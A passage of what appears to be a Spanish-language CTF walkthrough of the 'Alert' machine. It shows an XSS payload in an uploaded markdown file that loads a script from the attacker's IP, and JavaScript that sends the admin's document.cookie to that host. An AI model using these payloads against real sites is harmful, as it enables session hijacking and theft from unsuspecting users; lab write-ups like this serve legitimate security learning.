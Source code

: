 Actualizaremos el contenido de `pwned.md` con el siguiente código para comprobar si es capaz de realizar una petición a un recurso externo.

```md
<script src="http://10.10.16.51/pwned.js"></script>
```

Al subir el archivo `pwned.md`, se generará un enlace, el cual enviaremos al usuario administrador a través de la sección **Contact Us**.

![](<../assets/images/posts/2025-03-25-alert/Pasted image 20250323141840.png>)

Tras habernos montado previamente un servidor con Python (`python3 -m http.server 80`), veremos cómo recibimos una petición al recurso `pwned.js`.

![](<../assets/images/posts/2025-03-25-alert/Pasted image 20250323141857.png>)

Una vez que hemos comprobado que el usuario administrador es capaz de acceder a recursos externos (`pwned.js`), actualizaremos el contenido del recurso interno con el siguiente código para intentar un **Cookie Hijacking**.

```js
let req = new XMLHttpRequest();
req.open("GET", "http://10.10.16.51/?cookie="+document.cookie)
req.send()
```

Volveremos a enviar el mismo enlace al usuario administrador y veremos cómo no podemos secuestrar su cookie, ya que no se están utilizando.
